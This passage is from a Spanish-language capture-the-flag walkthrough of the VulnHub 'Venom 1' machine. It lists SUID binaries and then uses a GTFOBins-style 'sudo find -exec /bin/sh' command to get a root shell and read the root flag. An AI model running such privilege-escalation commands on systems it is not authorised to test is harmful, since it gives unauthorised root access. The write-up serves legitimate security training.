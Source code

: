 ```bash
/bin/mount
/bin/umount
/bin/su
/bin/fusermount
/bin/ping
```

Buscamos por *gtfobins* y encontramos la forma de ejecutar find para hacernos root.

![gtfobins](/assets/img/commons/vulnhub/venom1/gtfobins.png){: .center-image }

Listamos la root flag.

```bash
nathan@venom:~$ sudo find . -exec /bin/sh \; -quit
[sudo] password for nathan:
# whoami
root
# cd /root
# ls
root.txt  snap
# cat root.txt
#root_flag
H@v3_a_n1c3_l1fe.F
#
```

Hope it helps!